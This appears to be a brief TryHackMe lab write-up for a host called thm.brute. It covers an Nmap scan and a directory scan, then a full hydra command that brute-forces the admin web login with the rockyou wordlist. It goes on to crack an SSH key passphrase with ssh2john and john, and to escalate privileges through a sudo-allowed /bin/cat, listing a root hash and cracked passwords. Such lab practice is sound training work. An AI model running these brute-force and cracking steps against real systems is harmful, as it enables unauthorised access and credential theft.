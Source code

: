 #TryHackMe #linux 
# Scan Nmap
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4b0ebf14fa54b35c4415edb25da0ac8f (RSA)
|   256 d03a8155135e870ce8521ecf44e03a54 (ECDSA)
|_  256 dace79e045eb1725ef62ac98f0cfbb04 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.29 (Ubuntu)

# Dirsearch Enum
[07:09:07] 301 -  306B  - /admin  ->  http://thm.brute/admin/ 

# Brute force by hydra to bypass /admin/
┌──(root㉿kali)-[~]
└─# hydra -l admin -P /usr/share/wordlists/rockyou.txt thm.brute http-post-form "/admin/:user=^USER^&pass=^PASS^:Username or password invalid" -V
	pass = xavier

# john ssh private key fund after connection
#crackPass
# ssh2john on key
ssh2john key > key_hash

# Commande : john key_hach
parphrase = rockinroll

# SSH Exploit done

# PrivEsc
## Find
(root) NOPASSWD: /bin/cat
root pass_hash = "$6$zdk0.jUm$Vya24cGzM1duJkwM5b17Q205xDJ47LOAg/OpZvJ1gKbLF8PJBdKJA4a6M.JYPUTAaWu4infDjI88U9yUXEVgL."
root passord = football